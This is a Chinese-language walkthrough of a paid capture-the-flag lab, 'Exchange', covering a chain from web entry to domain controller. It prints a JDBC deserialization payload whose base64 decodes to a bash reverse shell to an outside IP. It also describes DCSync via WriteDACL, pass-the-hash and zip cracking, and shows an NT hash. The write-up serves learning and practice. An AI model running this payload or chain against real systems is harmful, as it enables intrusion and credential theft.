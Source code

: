 # Exchange

看到奖品还有证书，还涉及oscp方面的东西，过来打打

**感谢TryHackMe**

Exchange 是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有 4 个 Flag，分布于不同的靶机。

由于是付费的，时间就是金钱，为了节省点钱，我只好利用wp来进行**半引导式**渗透

**借此来复习一下TryHackMe**

**(事实上我也看了其他几个房间的wp，得出的结论是thm教会了我太多太多，thm世界第一)**

![在这里插入图片描述](https://img-blog.csdnimg.cn/8b6f5f2bcae144c5b09ed5c675dc1723.png)

---

## 端口扫描

![在这里插入图片描述](https://img-blog.csdnimg.cn/bb293b04b13c4d3588c842fd7eee9d43.png)

## Web枚举 - 入口

进入8000，直接注册个账号

![在这里插入图片描述](https://img-blog.csdnimg.cn/b6d3e87b83e34ec7867646f185580e48.png)

这里根据wp，存在一个可以让我们RCE的漏洞

但需要我们开启服务，由于我们没有公网ip，我们就借助thm的网络kali来帮助我们实现

**如果java版本过高，请下载java8,然后为mysql_fake_server配置好java环境，否则会报错， https://repo.huaweicloud.com/java/jdk/**

**另外，这里需要提前下载ysoserial jar包，https://github.com/frohoff/ysoserial/releases**

**设置好config.json**

![在这里插入图片描述](https://img-blog.csdnimg.cn/f58ee1bef2504eb9bead1efd371a3c7a.png)

thm的网络kali开启fake mysql server

![在这里插入图片描述](https://img-blog.csdnimg.cn/0586f6fabb164aad9135abb2fe317b62.png)

把服务开起来之后就可以尝试利用了

/user/list?search=payload

payload:

```yaml
{ "name": { "@type": "java.lang.AutoCloseable", "@type": "com.mysql.jdbc.JDBC4Connection", "hostToConnectTo": "攻击者IP", "portToConnectTo": 3306, "info": { "user": "yso_CommonsCollections6_bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zNC4yNTQuMTUxLjE2My84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}", "password": "pass", "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor", "autoDeserialize": "true", "NUM_HOSTS": "1" } }
```

其中的base64是shellcode，需要改成自己的，然后再base64

然后将payload进行urlencode之后交付

![在这里插入图片描述](https://img-blog.csdnimg.cn/b91c0bb620b649b9847dce72766b14b7.png)

成功getshell，并且拿到flag1

![在这里插入图片描述](https://img-blog.csdnimg.cn/4f61b0a1b647478799b55afcf06d2f1e.png)

## sshuttle搭建内网隧道

查看内网网段

![在这里插入图片描述](https://img-blog.csdnimg.cn/bbbe8d8778034ef0af9fe017c08c1892.png)

首先使用ssh-keygen生成ssh key

![在这里插入图片描述](https://img-blog.csdnimg.cn/d5799e5251cf4b79ba9dc27c88241fc5.png)

将公钥改为authorized_keys丢到.ssh目录

![在这里插入图片描述](https://img-blog.csdnimg.cn/c41f8f915aa44639ade32469bd75af25.png)

将私钥下回攻击机，然后修改私钥权限

![在这里插入图片描述](https://img-blog.csdnimg.cn/e6737dceaef7429093e6b37b23560594.png)

sshuttle搭建隧道

![在这里插入图片描述](https://img-blog.csdnimg.cn/ea5f89abc451438d8eeec36afc2a2ac1.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/ca308bc21c8b41f18e74e6fea97d44ec.png)

.2是dc，.26是win10

## 内网横向移动 - Exchange

.9有一个exchange

![在这里插入图片描述](https://img-blog.csdnimg.cn/3e9032d4d6194086b92e8b9430055ced.png)

上exprolog

![在这里插入图片描述](https://img-blog.csdnimg.cn/9f39d366c850492a8bdeecac0c716ab7.png)

现在能够RCE

![在这里插入图片描述](https://img-blog.csdnimg.cn/d35451bde6fb43f88cbe3ce73bf26ec4.png)

flag2

![在这里插入图片描述](https://img-blog.csdnimg.cn/eb95fc902ec648d382433e82bee219c3.png)

## 内网横向移动 - DACL-WriteDACL

这里为了省时间，就懒得开rdp进去传mimikataz之类的提取凭据操作了

直接wp快速拿到exchange的机器账户和zhangtong的 nt hash

	0beff597ee3d7025627b2d9aa015bf4c

应该是通过bloodhound这类工具发现exchange机器账户对整个domain-object有writedacl权限

通过它来使用impacket的dacledit为我们已经获得的zhangtong赋予dcsync权限,然后进行dcsync获取DA账户的ntlm hash

psexec进dc

![在这里插入图片描述](https://img-blog.csdnimg.cn/90ad9c83895f4d98832dca6c86c95f4d.png)

flag4

![在这里插入图片描述](https://img-blog.csdnimg.cn/35401568ad864f689f692e703d57ae17.png)

## 最后的flag

smbclient进.26的smb C$ share

![在这里插入图片描述](https://img-blog.csdnimg.cn/f74b1cd645474392b5ff8492e9f319b0.png)

在lumia的桌面下有个secret.zip, 但是有密码

由于thm的kali有上限时间，准备到时了，为了在kali关闭之前搞定，我选择直接wp:

	PTH Exchange导出Lumia mailbox里面的全部邮件以及附件
	item-0.eml，提示密码是手机号
	导出的附件里面有一个csv，里面全是手机号

然后常规zip2john加john

然后出密码，查看flag.docx得到flag3

![在这里插入图片描述](https://img-blog.csdnimg.cn/5fc13e0d21fc45f78f3cfc9053540eeb.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/ab8e7e25d76a468c84fd0a0e4ded37f7.png)

## 结束

其实这套机器整体并不难，除了入口点有点小坑之外，其他都还好，包括后面的横向移动和域渗透，事实上都非常简单，thm都是教过的非常全面的，其实跟thm的wreath有点相似。只是在这里，每一分每一秒都是钱，并且在最后，我的thm的kali也即将到期并且无法续期，我只好跟着wp的思路来极速完成这个机器

最后感谢TryHackMe的优质教程和房间，令我学的这么多

也感谢wp作者：小离-xiaoli写的[writeup](https://mp.weixin.qq.com/s?__biz=MzUyNzk2NDcwMw==&mid=2247488275&idx=1&sn=b9f8fe551dc051613869b61f0ffda211&chksm=fa76dc63cd015575993488a29a297b7bc6340e881510dc0caa6081775b2ee71d6dcdcad553af&mpshare=1&scene=23&srcid=040708PO4wfEufH65jsiLD7f&sharer_sharetime=1680859750565&sharer_shareid=69363f9f5d6174e530a524332f37bf0a#rd)，才能令像我这种穷鬼能加速和跳过一部分
